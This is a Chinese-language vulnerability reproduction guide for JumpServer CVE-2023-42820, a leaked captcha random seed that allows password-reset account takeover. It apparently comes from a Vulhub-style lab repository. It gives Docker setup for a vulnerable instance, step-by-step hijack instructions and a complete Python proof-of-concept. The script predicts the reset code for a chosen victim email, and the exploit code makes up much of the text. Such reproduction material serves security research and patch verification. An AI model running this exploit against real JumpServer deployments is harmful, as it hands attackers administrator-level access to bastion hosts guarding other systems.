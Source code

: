 # JumpServer 随机数种子泄露导致账户劫持漏洞 CVE-2023-42820

## 漏洞描述

JumpServer是一个开源堡垒机系统。在其3.6.4及以下版本中，存在一处账户接管漏洞。攻击者通过第三方库[django-simple-captcha](https://github.com/mbi/django-simple-captcha)泄露的随机数种子推算出找回密码时的用户Token，最终修改用户密码。

参考链接：

- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-7prv-g565-82qp
- https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
- https://www.leavesongs.com/PENETRATION/jumpserver-sep-2023-multiple-vulnerabilities-go-through.html 

## 环境搭建

Vulhub启动环境前，修改[config.env](config.env)中`DOMAINS`的值为你的IP和端口，如`DOMAINS=your-ip:8080`。

执行如下命令启动一个JumpServer 3.6.3 的服务器：

```
docker compose up -d
```

启动服务需要等待一段时间，之后访问`http://your-ip:8080`即可查看到JumpServer的登录页面。我们使用`admin`作为账号及密码即可登录，第一次登录管理员账号需要修改密码。

![image-20231021145246261](images/image-20231021145246261.png)

## 漏洞复现

使用Vulhub半自动化脚本复现漏洞。由于是半自动化，严格按照如下步骤方可正确复现。

首先，在浏览器第一个Tab中打开忘记密码页面：`http://your-ip:8080/core/auth/password/forget/previewing/`，此时页面上将有一个验证码。

- 如果验证码中包含数字10，则请刷新验证码，因为我们的脚本暂时无法处理数字10
- 如果验证码中不包含数字10，则右键菜单中将该验证码在新Tab下打开

新Tab中验证码的URL类似于`http://your-ip:8080/core/auth/captcha/image/87b2723d404657c2294abfab908975ebb9da5468/`，其中包含该验证码的key（一串sha1 hash值），也就是后面伪随机数使用的种子，记录下这个值作为**seed**。

返回第一个Tab，**刷新页面**。刷新页面的目的是，不使用包含“种子”的验证码，因为这个种子将在后续步骤中使用到。

刷新页面后正确填写用户名和验证码后提交，跳转到验证码验证页面。此时这个页面的URL类似于`http://your-ip:8080/core/auth/password/forgot/?token=sceOx7yWuAH9wWcuzc0nMQmLBzEPNhkhuTfl`，其中包含一个随机的token值，记录下这个值作为**token**。

执行脚本：

```
python poc.py -t http://your-ip:8080 --email admin@whoami.com --seed [seed] --token [token]
```

这个脚本需要传入4个参数：

- `-t` 指定目标JumpServer服务器地址
- `--email` 指定待劫持用户的邮箱地址
- `--seed` 前面记下来的随机数种子（**seed**）
- `--token` 前面记下来的token值（**token**）

> ~~环境启动失败（mariadb redis版本问题，修改版本启动后服务自动退出）。原docker-compose.yml中版本为：mariadb:10.11.5、redis:6.2.13~~
>
> ~~待复现，以下为Vulhub截图。~~

脚本执行后，将输出预测的code值：

![](images/1-16967498267261.png)

回到浏览器中，输入该code提交，即可来到修改新密码页面，修改密码即可。

![](images/2.gif)

## 漏洞POC

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)
```

